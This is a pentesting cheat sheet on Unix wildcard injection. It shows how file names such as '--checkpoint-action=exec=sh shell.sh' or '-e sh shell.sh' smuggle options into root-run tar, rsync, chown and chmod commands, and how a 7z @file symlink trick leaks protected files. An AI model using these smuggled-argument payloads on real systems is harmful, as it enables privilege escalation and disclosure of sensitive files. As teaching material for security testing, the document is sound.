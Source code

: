 # Wildcards Spare tricks

### chown, chmod

You can **indicate which file owner and permissions you want to copy for the rest of the files**

```bash
touch "--reference=/my/own/path/filename"
```

You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(combined attack)_\
__More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

### Tar

**Execute arbitrary commands:**

```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```

You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar attack)_\
__More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

### Rsync

**Execute arbitrary commands:**

```bash
Interesting rsync option from manual:

 -e, --rsh=COMMAND           specify the remote shell to use
     --rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```

You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _attack)_\
__More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

### 7z

In **7z** even using `--` before `*` (note that `--` means that the following input cannot treated as parameters, so just file paths in this case) you can cause an arbitrary error to read a file, so if a command like the following one is being executed by root:

```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```

And you can create files in the folder were this is being executed, you could create the file `@root.txt` and the file `root.txt` being a **symlink** to the file you want to read:

```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```

Then, when **7z** is execute, it will treat `root.txt` as a file containing the list of files it should compress (thats what the existence of `@root.txt` indicates) and when it 7z read `root.txt` it will read `/file/you/want/to/read` and **as the content of this file isn't a list of files, it will throw and error** showing the content.

_More info in Write-ups of the box CTF from HackTheBox._

__
